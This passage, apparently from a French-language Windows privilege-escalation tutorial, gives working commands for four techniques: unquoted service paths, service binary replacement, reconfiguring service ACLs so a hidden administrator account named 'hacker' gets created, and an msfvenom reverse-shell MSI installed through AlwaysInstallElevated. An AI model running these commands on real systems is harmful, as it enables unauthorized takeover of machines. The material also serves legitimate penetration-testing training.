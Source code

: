 Ces outils exploitent les vulnérabilités NTLM et COM pour élever les privilèges.

#### Mauvaise configuration des services

Les services mal configurés sont une cible courante pour l'escalade de privilèges.

##### Chemins non cités (Unquoted Service Paths)

Si le chemin d'un service contient des espaces et n'est pas entre guillemets, Windows recherche l'exécutable dans plusieurs emplacements :

```powershell
# Rechercher des chemins de service non cités
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Exploiter un chemin non cité (exemple)
# Si le chemin est : C:\Program Files\Vulnerable Service\service.exe
# Créer un fichier malveillant à C:\Program.exe
copy C:\Windows\System32\cmd.exe "C:\Program.exe"
```

##### Permissions faibles sur les fichiers de service

```powershell
# Vérifier les permissions avec icacls
icacls "C:\Program Files\Vulnerable Service\service.exe"

# Si modifiable, remplacer par un fichier malveillant
copy /Y evil.exe "C:\Program Files\Vulnerable Service\service.exe"
```

##### ACL faibles sur les services

```powershell
# Vérifier les permissions sur un service
sc sdshow vulnerable_service

# Modifier la configuration d'un service
sc config vulnerable_service binpath= "cmd.exe /c net user hacker Password123! /add && net localgroup Administrators hacker /add"
sc start vulnerable_service
```

#### Exploitation du registre

##### AlwaysInstallElevated

Si cette politique est activée, les packages MSI s'installent avec des privilèges SYSTEM :

```powershell
# Vérifier si AlwaysInstallElevated est activé
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Créer un package MSI malveillant
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f msi -o evil.msi

# Installer le package MSI
msiexec /quiet /qn /i evil.msi
```
